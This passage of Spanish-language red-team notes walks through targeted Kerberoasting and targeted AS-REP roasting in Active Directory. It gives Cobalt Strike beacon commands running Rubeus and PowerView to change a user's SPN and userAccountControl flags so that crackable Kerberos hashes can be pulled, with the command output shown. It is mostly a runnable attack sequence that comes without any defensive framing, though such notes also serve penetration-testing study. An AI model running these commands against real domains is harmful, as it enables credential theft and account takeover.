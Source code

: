 ```powershell

# Aplicando Kerberoast
beacon> execute-assembly /opt/tools/rubeus/Rubeus.exe kerberoast /user:testacl /nowrap

# Removiendo un SPN asignado a un usuario
powershell Set-DomainObject -Identity jadams -Clear ServicePrincipalName

```

##### Targeted ASREPRoasting
Es la misma que la anterior nada mas que esta vez modificamos un valor para que el objeto tenga la bandera `DONT_REQ_PREAUTH`

```powershell
beacon> powershell Get-DomainUser -Identity TestAcl | ConvertFrom-UACValue

Name                           Value                                                                                   
----                           -----                                                                                   
NORMAL_ACCOUNT                 512                                                                                     
DONT_EXPIRE_PASSWORD           65536                                                                                   


# Modificamos el valor de userAccountControl
powershell Set-DomainObject -Identity TestAcl -XOR @{UserAccountControl=4194304}

# Chequeamos
powershell Get-DomainUser -Identity TestAcl | ConvertFrom-UACValue

Name                           Value                                                                                   
----                           -----                                                                                   
NORMAL_ACCOUNT                 512                                                                                     
DONT_EXPIRE_PASSWORD           65536                                                                                   
DONT_REQ_PREAUTH               4194304 


# Aplicando ASREPROAST
execute-assembly /opt/tools/rubeus/Rubeus.exe asreproast /user:TestAcl /nowrap

# Quitar el valor modificado del la propiedad userAccountControl
powershell Set-DomainObject -Identity TestAcl -XOR @{UserAccountControl=4194304} -Verbose

# Chequeamos
powershell Get-DomainUser -Identity TestAcl | ConvertFrom-UACValue

Name                           Value                                                                                   
----                           -----                                                                                   
NORMAL_ACCOUNT                 512                                                                                     
DONT_EXPIRE_PASSWORD           65536                                                                                   
     
```
